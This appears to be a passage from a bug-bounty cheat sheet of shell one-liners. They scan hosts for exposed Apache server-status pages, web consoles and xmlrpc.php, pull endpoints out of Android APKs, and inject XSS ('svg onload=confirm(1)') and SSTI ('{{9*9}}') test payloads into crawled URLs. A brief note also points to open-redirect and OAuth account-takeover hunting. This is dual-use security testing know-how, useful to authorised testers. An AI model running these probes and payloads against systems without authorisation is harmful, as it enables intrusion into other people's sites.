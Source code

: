 > @thevillagehacker
```sh
cat host.txt | httpx -path //server-status?full=true -status-code -content-length
```
```sh
cat host.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -path /web-console/ -status-code -content-length
```
### Find xmlrpc.php in single shot
> @thevillagehacker
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```
### Reflected XSS
> @thevillagehacker
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
```sh
gospider -a -s abc.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
### SSTI to RCE
> @thevillagehacker
```sh
 waybackurls http://target.com | qsreplace "abc{{9*9}}" > fuzz.txt
 ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
 ```
***search: abc81 in burpsuite search and check***
### Check for open redirect,ssrf with waybackurls
> @thevillagehacker

```sh
waybackurls target[.]com | grep ‘http%\|https%'
```
***Note :***
*You can replace the URLs you find with yours and hope for an open redirect,ssrf or something else. You can grep out analytic stuff with grep -v. If your target has something with OAuth with a redirect_uri target/* that's an easy Account takeover*
### Searching for endpoints, by apks
> @thevillagehacker

```sh
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```
### Fuzz all js files from the target
> @thevillagehacker
